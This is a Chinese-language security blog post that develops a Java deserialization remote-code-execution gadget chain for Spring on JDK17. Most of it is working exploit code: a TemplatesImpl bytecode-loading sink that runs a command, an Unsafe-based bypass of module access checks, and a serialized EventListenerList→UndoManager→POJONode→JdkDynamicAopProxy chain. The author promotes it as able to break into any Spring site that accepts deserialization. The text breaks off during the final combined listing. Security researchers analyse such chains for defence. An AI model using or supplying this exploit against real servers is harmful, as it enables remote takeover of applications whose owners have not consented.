# Spring最新原生无任何依赖RCE新链子-先知社区

> **来源**: https://xz.aliyun.com/news/18693  
> **文章ID**: 18693

---

# **Spring最新原生无任何依赖RCE新链子**

## 前言

前段时间先知社区一波 spring 的原生 AOP 链子很火，因为解决了在 Spring 条件下尽可能少依赖的一条链子，最近又来了一条仅仅只需要 SPring，不再需要任何其他的依赖的一个 RCE 链子，而且是高版本的 JDK 一样通杀的，java 届要变天了，网上这条链子看了好多公众号都在传，今天我们好好分析一下，java 的反序列化的通杀链子

有一说一，这条链子就是一个神，首先只需要 JDK 和 SPring，然后 JDK 高本版也可以打，相当于一个 Spring 的站，只要有反序列化，不需要探测任何依赖，你就可以直接干穿，当然这是理想状态

## 环境搭建

这里直接本地复现了，当然到时候也去 fofa 搞个站看看效果



只需要 spring+JDK17 就 ok

## 链子思路

首先我们 sink 点，都使用原生了，只能是 TemplatesImpl 了，但是我们都知道在高版本的 JDK，这条链子根本打不了

### 模块化机制的限制

可以看到失败了，我们可以分析一下原因

测试代码

```
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;

import javax.xml.transform.TransformerConfigurationException;
import java.io.IOException;
import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;

public class Temp {
    public static void main(String[] args) throws NoSuchFieldException, IllegalAccessException, IOException, TransformerConfigurationException {
        TemplatesImpl templates = new TemplatesImpl();
        byte[] code = Files.readAllBytes(Paths.get("F:\IntelliJ IDEA 2023.3.2\javascript\JDK17_temp\target\classes\Test.class"));
        byte[][] codes = {code};
        setFieldValue(templates,"_bytecodes",codes);
        setFieldValue(templates,"_tfactory",new TransformerFactoryImpl());
        templates.newTransformer();
    }

    public static void setFieldValue(Object object,String field_name,Object filed_value) throws NoSuchFieldException, IllegalAccessException {
        Class clazz=object.getClass();
        Field declaredField=clazz.getDeclaredField(field_name);
        declaredField.setAccessible(true);
        declaredField.set(object,filed_value);
    }
}

```

```
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;

import java.io.IOException;

public class Test extends AbstractTranslet {
    static {
        try {
            Runtime.getRuntime().exec("calc");
        } catch (IOException e) {
            throw new RuntimeException(e);
        }
    }
    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

    }
    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {

    }
}
```

但是运行会报错



#### 原因分析

其实熟悉的朋友都知道这个是 JDK17 版本由于模块化机制的原因

根本原因可以去看下面的代码

```
private boolean checkCanSetAccessible(Class<?> caller,
                                      Class<?> declaringClass,
                                      boolean throwExceptionIfDenied) {
    if (caller == MethodHandle.class) {
        throw new IllegalCallerException();   // should not happen
    }

    Module callerModule = caller.getModule();
    Module declaringModule = declaringClass.getModule();

    if (callerModule == declaringModule) return true;
    if (callerModule == Object.class.getModule()) return true;
    if (!declaringModule.isNamed()) return true;

    String pn = declaringClass.getPackageName();
    int modifiers;
    if (this instanceof Executable) {
        modifiers = ((Executable) this).getModifiers();
    } else {
        modifiers = ((Field) this).getModifiers();
    }

    // class is public and package is exported to caller
    boolean isClassPublic = Modifier.isPublic(declaringClass.getModifiers());
    if (isClassPublic && declaringModule.isExported(pn, callerModule)) {
        // member is public
        if (Modifier.isPublic(modifiers)) {
            return true;
        }

        // member is protected-static
        if (Modifier.isProtected(modifiers)
            && Modifier.isStatic(modifiers)
            && isSubclassOf(caller, declaringClass)) {
            return true;
        }
    }

    // package is open to caller
    if (declaringModule.isOpen(pn, callerModule)) {
        return true;
    }

    if (throwExceptionIfDenied) {
        // not accessible
        String msg = "Unable to make ";
        if (this instanceof Field)
            msg += "field ";
        msg += this + " accessible: " + declaringModule + " does not "";
        if (isClassPublic && Modifier.isPublic(modifiers))
            msg += "exports";
        else
            msg += "opens";
        msg += " " + pn + "" to " + callerModule;
        InaccessibleObjectException e = new InaccessibleObjectException(msg);
        if (printStackTraceWhenAccessFails()) {
            e.printStackTrace(System.err);
        }
        throw e;
    }
    return false;
}
```

总结一下就是检查某个类的字段或方法是否允许通过反射设置为可访问（setAccessible），目前只有

调用方与目标类在同一模块  
目标模块是否对调用方导出或开放包  
目标类与成员的修饰符（public/protected/static）及继承关系等条件

才能够反射去修改了

#### 模块机制绕过

而绕过方法就是使用 Unsafe 类了，真是 java 反序列化的好大哥，救反序列化与水深火热之中

看上面代码有个判断就是



调用类的 module 和 Object 类的 module 一样，那我们就可以使用 Unsafe 去修改我们的目标类的 module 属性和 java.\* 下类的 module 属性一致来绕过

使用如下代码即可

```
private static Method getMethod(Class clazz, String methodName, Class[]
        params) {
    Method method = null;
    while (clazz!=null){
        try {
            method = clazz.getDeclaredMethod(methodName,params);
            break;
        }catch (NoSuchMethodException e){
            clazz = clazz.getSuperclass();
        }
    }
    return method;
}
private static Unsafe getUnsafe() {
    Unsafe unsafe = null;
    try {
        Field field = Unsafe.class.getDeclaredField("theUnsafe");
        field.setAccessible(true);
        unsafe = (Unsafe) field.get(null);
    } catch (Exception e) {
        throw new AssertionError(e);
    }
    return unsafe;
}
public void bypassModule(ArrayList<Class> classes){
    try {
        Unsafe unsafe = getUnsafe();
        Class currentClass = this.getClass();
        try {
            Method getModuleMethod = getMethod(Class.class, "getModule", new
                    Class[0]);
            if (getModuleMethod != null) {
                for (Class aClass : classes) {
                    Object targetModule = getModuleMethod.invoke(aClass, new
                            Object[]{});
                    unsafe.getAndSetObject(currentClass,
                            unsafe.objectFieldOffset(Class.class.getDeclaredField("module")), targetModule);
                }
            }
        }catch (Exception e) {
        }
    }catch (Exception e){
        e.printStackTrace();
    }
}
```

具体原理可以参考<https://pankas.top/2023/12/05/jdk17-%E5%8F%8D%E5%B0%84%E9%99%90%E5%88%B6%E7%BB%95%E8%BF%87/>

#### 加载类的问题

我们利用的最终是去加载一个 class ，但是我们 class 是要继承 AbstractTranslet 接口的，不然加载的时候根本不会成功

先换个 JDK 版本

先注释一下



但是加载的时候会判断  


不然下面就会报错



报一个空指针的错误

```
Exception in thread "main" java.lang.NullPointerException
at com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl.defineTransletClasses(TemplatesImpl.java:423)
at com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl.getTransletInstance(TemplatesImpl.java:452)
at com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl.newTransformer(TemplatesImpl.java:485)
at Tt.main(Tt.java:21)
```

所以我们就必须继承 com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet？

但是继承了又会出现模块机制的问题，怎么办呢？我们看看代码逻辑有没有可以不继承的方法，而且还能加载的

#### 不继承 AbstractTranslet 绕过

首先需要解决\_auxClasses空指针问题

```
if (classCount > 1) {
    _auxClasses = new HashMap<>();
}
```

我们的 classCount 必须大于 1

就有人说了，为什么不反射它

```
private transient Map<String, Class<?>> _auxClasses = null;
```

所以我们还得找上下文的逻辑

```
final int classCount = _bytecodes.length;
_class = new Class[classCount];
```

所以我们设置两个 code

但是还是会报错

```
Exception in thread "main" javax.xml.transform.TransformerConfigurationException: 此 Templates 不包含名为 'Test' 的类。
at com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl.defineTransletClasses(TemplatesImpl.java:429)
at com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl.getTransletInstance(TemplatesImpl.java:452)
at com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl.newTransformer(TemplatesImpl.java:485)
at Tt.main(Tt.java:22)
```

不懂，去调试了一下



所以设置\_transletIndex 必须要大于 0

```
setFieldValue(templates, "_name", "Test");
setFieldValue(templates,"_bytecodes",codes);
setFieldValue(templates, "_transletIndex", 0);
setFieldValue(templates,"_tfactory",new TransformerFactoryImpl());
templates.newTransformer();
```



成功绕过了限制

目前已经实现了 sink 点无视模块化机制的问题了

所以现在需要思考 source 的问题了

### source 点分析

#### 调用 getter 点分析

我们的 sink 点已经分析完成了，现在就是 Source 了，首先利用这个类，在低版本的 JDK 都是调用它的 getter 方法，而这样就有很多了，但是需要考虑原生的问题

这里很容易想到一个链子



因为我们有 jackson 的依赖

利用 jackson 调用 getter 的方法

简单测试

```

import java.io.IOException;
import java.io.Serializable;

public class User implements Serializable {

    public User() {
    }

    public Object getName() throws IOException {
        Runtime.getRuntime().exec("calc");
        return "aaaa";
    }

    public Object setName(String name) {
        return "aaaa";
    }

}
```

```


import com.fasterxml.jackson.databind.node.POJONode;

public class Check {
    public static void main(String[] args) {
        User user = new User();
        POJONode jsonNodes = new POJONode(user);
        jsonNodes.toString();
    }
}
```

运行 check  


原理看看调用栈就明白了  


核心目标就是如何触发 POJONode 的 toString

当然 JDK 那我们经常使用的

BadAttributeValueExpException

但是它已经退役了



对比就知道在 JDK17 它已经退役了

不过任然有老将还在战场

#### EventListenerList 突破调用 tostring 难题

参考<http://www.bmth666.cn/2024/03/31/%E7%AC%AC%E4%BA%8C%E5%B1%8A-AliyunCTF-chain17%E5%A4%8D%E7%8E%B0/index.html>

```
import com.fasterxml.jackson.databind.node.POJONode;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import javassist.ClassPool;
import javassist.CtClass;
import javassist.CtMethod;
import org.springframework.aop.framework.AdvisedSupport;

import javax.swing.event.EventListenerList;
import javax.swing.undo.UndoManager;
import javax.xml.transform.Templates;
import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.util.Base64;
import java.util.Vector;

public class jackson_EventListenerList {
    static {
        try {
            // javassist 修改 BaseJsonNode
            ClassPool classPool = ClassPool.getDefault();
            CtClass ctClass = classPool.getCtClass("com.fasterxml.jackson.databind.node.BaseJsonNode");
            CtMethod writeReplace = ctClass.getDeclaredMethod("writeReplace");
            writeReplace.setBody("return $0;");
            ctClass.writeFile();
            ctClass.toClass();
        } catch (Exception e){
            e.printStackTrace();
        }
    }
    public static void main(String[] args) throws Exception{
        byte[] bytes = ClassPool.getDefault().get(Evil.class.getName()).toBytecode();

        TemplatesImpl templatesImpl = new TemplatesImpl();
        setFieldValue(templatesImpl, "_bytecodes", new byte[][]{bytes,ClassFiles.classAsBytes(jackson_BadAttributeValueExpException.Foo.class)});
        setFieldValue(templatesImpl, "_name", "a");
        setFieldValue(templatesImpl, "_tfactory", null);
        setFieldValue(templatesImpl, "_transletIndex", 0);

        //使用 Spring AOP 中的 JdkDynamicAopProxy,确保只触发 getOutputProperties
        AdvisedSupport advisedSupport = new AdvisedSupport();
        advisedSupport.setTarget(templatesImpl);
        Constructor constructor = Class.forName("org.springframework.aop.framework.JdkDynamicAopProxy").getConstructor(AdvisedSupport.class);
        constructor.setAccessible(true);
        InvocationHandler handler = (InvocationHandler) constructor.newInstance(advisedSupport);
        Object proxy = Proxy.newProxyInstance(ClassLoader.getSystemClassLoader(), new Class[]{Templates.class}, handler);

        POJONode pojoNode = new POJONode(proxy);

        EventListenerList eventListenerList = new EventListenerList();
        UndoManager undoManager = new UndoManager();
        Vector vector = (Vector) getFieldValue(undoManager, "edits");
        vector.add(pojoNode);
        setFieldValue(eventListenerList, "listenerList", new Object[]{InternalError.class, undoManager});

        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(eventListenerList);
        oos.close();
        System.out.println(new String(Base64.getEncoder().encode(baos.toByteArray())));
        System.out.println(new String(Base64.getEncoder().encode(baos.toByteArray())).length());

        ByteArrayInputStream bais = new ByteArrayInputStream(baos.toByteArray());
        ObjectInputStream ois = new ObjectInputStream(bais);
        ois.readObject();
        ois.close();
    }
    public static void setFieldValue ( final Object obj, final String fieldName, final Object value ) throws Exception {
        final Field field = getField(obj.getClass(), fieldName);
        field.set(obj, value);
    }
    public static Field getField ( final Class<?> clazz, final String fieldName ) throws Exception {
        try {
            Field field = clazz.getDeclaredField(fieldName);
            if ( field != null )
                field.setAccessible(true);
            else if ( clazz.getSuperclass() != null )
                field = getField(clazz.getSuperclass(), fieldName);

            return field;
        }
        catch ( NoSuchFieldException e ) {
            if ( !clazz.getSuperclass().equals(Object.class) ) {
                return getField(clazz.getSuperclass(), fieldName);
            }
            throw e;
        }
    }
    public static Object getFieldValue(final Object obj, final String fieldName) throws Exception {
        final Field field = getField(obj.getClass(), fieldName);
        return field.get(obj);
    }
}
```

原理就是

```
EventListenerList --> UndoManager#toString() -->Vector#toString() --> POJONode#toString()
```





## 总链子

我们 source 点和 sink 点都解决了

现在就是汇总这些代码的时候了

全部代码如下

```
import javax.swing.event.EventListenerList;
import java.io.ByteArrayOutputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import javax.swing.undo.UndoManager;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.Base64;
import java.util.Vector;
import java.util.ArrayList;

import com.fasterxml.jackson.databind.node.POJONode;
